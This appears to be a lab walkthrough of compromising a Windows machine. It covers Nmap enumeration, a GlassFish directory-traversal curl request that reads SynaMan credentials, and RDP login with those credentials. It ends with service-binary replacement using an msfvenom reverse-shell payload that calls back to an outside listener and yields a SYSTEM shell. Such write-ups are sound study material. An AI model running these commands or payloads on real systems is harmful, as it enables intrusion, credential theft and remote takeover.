









We start by enumerating the machine with Nmap and visiting all identified web ports that are open using our browser. We find the GlassFish admin console on port 4848 and a SynaMan instance on port 6060.
We discover a directory traversal vulnerability for GlassFish with searchsploit (EDB-ID 39441) and use it to read the configuration file of the SynaMan service. curl http://192.168.245.168:4848/theme/META-INF/prototype%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%af..%c0%afsynaman/config/appconfig.xml  We then use the credentials found to log in via RDP to the machine. xfreerdp3 /u:arthur /p:KingOfAtlantis /v:192.168.245.168 /dynamic-resolution  We identify a privilege escalation vulnerability in the SynaMan service (CVE-2022-26250). There was no POC that I could find associated with the vulnerability so I decided to enumerate further and see if I could get something to work. We check the file permissions in the C:\SynaMan directory and notice that we can modify the SynaMan executable. We cannot start or stop the service and we cannot rename its executable while it is running. The service is also set to start automatically. We delete all the files we can in the installation directory and restart the computer. This will prevent the service from starting as soon as the computer boots. This allows us to rename the real binary and replace it with a malicious one. We restart the computer and obtain a SYSTEM shell on our listener once the service starts. This method was not the cleanest but it was the quickest and easiest way I thought of to replace the binary. In a real-world assessment, it would be best to set some sort of task or script to rename the binary as soon as the computer boots. icacls.exe .  sc.exe qc synaman net stop synaman  What the directory looks like once I delete all the files I can:  shutdown /r  msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.239 LPORT=8000 EXITFUNC=thread -f exe --platform windows -o SynaMan.exe  After waiting a bit and reconnecting via RDP, we are able to replace the binary with our payload.  We restart the machine once again and receive a connection on our listener. We now have a reverse shell as SYSTEM. 